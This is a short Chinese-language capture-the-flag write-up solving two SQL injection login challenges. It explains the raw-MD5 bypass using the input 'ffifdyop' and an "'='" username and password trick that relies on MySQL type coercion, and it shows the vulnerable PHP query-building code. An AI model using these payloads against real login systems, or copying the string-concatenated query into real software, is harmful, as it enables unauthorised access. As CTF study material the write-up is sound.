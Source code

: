

# 后台登录
http://www.shiyanbar.com/ctf/2036

php 处理password的代码如下：
```php
<!-- $password=$_POST['password'];
$sql = "SELECT * FROM admin WHERE username = 'admin' and password = '".md5($password,true)."'";
$result=mysqli_query($link,$sql);
    if(mysqli_num_rows($result)>0){
        echo 'flag is :'.$flag;
    }
    else{
        echo '密码错误!';
    } -->
```

```php
$sql = "SELECT * FROM admin WHERE username = 'admin' and password = '".md5($password,true)."'";
该语句构建sql查询， php的.操作符表示字符串拼接, 字符串由下面三个部分构成
1) "SELECT * FROM admin WHERE username = 'admin' and password = '"
2) md5($password,true)
3) "'"
md5($password,true) 函数， MD5报文摘要将以16字节长度的原始二进制格式返回， 然后被转换成字符串
```
寻找$password输入，使得md5返回字符串完成sql注入
```php
<?php
$password = "ffifdyop";
echo md5($password,true);
?>

输出：
'or'6�]��!r,��b
```

# sql 注入
# 登陆一下好吗??
http://www.shiyanbar.com/ctf/1942

username:'='

password:'='

```sql
create table users(username char(20), password char(20));
insert into users values("admin", "admin");
select * from users where username=''='' and password=''=''; 
# username='' 的结果为0， 0=''比较时，字符串被转为int时变为0， 0=0结果为true
```